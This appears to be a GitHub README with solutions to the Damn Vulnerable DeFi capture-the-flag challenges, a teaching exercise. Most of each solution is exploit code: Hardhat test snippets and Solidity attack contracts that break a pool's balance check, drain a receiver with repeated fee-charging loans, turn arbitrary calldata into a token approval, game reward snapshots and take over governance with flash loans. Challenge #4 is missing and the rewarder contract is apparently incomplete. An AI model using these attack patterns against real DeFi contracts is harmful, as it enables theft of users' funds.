 # DamnVulnerableDefi

## Challenge #1 - Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

To drain all ETH funds from the user's contract , the contract must borrow a flash loan 10 times so that it has to pay a fee of 1ETH everytime.
SInce there's no restriction on the flashLoan function it can be called by anyone. Calling it 10 times does the job.

Add these lines to naive-receiver.challenge.js:
``` 
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        for (let i = 0; i < 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address,0);
        }        
        
    });
```
## Challenge #3 - Truster

Create new contract _TrusterHack.sol_ 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract TrusterHack  {

    function hack( address _pool, address _token, uint amount) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), amount
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}
```

truster.challenge.js : 
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const _TrusterHack = await ethers.getContractFactory('TrusterHack', deployer);
        const TrusterHackContract = await _TrusterHack.deploy();

        await TrusterHackContract.connect(attacker).hack(this.pool.address, this.token.address, TOKENS_IN_POOL);        
    });
```
## Challenge #5 - The rewarder
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";


contract HackRewarder {

    IERC20 token;
    FlashLoanerPool pool;
    TheRewarderPool rewardPool;
    uint256 andhapaisa;

    constructor (address _pool, address _token, address _rewardPool) {
        
        pool = FlashLoanerPool(_pool);
        token = IERC20(_token);
        rewardPool = TheRewarderPool(_rewardPool);
        andhapaisa = token.balanceOf(address(pool));
    }

    function attack() public {
        pool.flashLoan(andhapaisa);
    }

    fallback() external {

        token.approve(address(rewardPool), andhapaisa);
        rewardPool.deposit(andhapaisa);
        rewardPool.withdraw(andhapaisa);
        token.transfer(address(pool),andhapaisa);
    }
}
```
## Challenge #6 - Selfie

selfie.challenge.js:
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SelfieHackFactory = await ethers.getContractFactory('SelfieHack', attacker);
        const SelfieHackContract = await SelfieHackFactory.deploy(this.pool.address,this.token.address, this.governance.address);

        await SelfieHackContract.connect(attacker).attack(TOKENS_IN_POOL);
        const actionId = ethers.BigNumber.from(await SelfieHackContract.connect(attacker).id());
        

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // Advance in time 2 days
        await this.governance.connect(attacker).executeAction(actionId);
    });


```
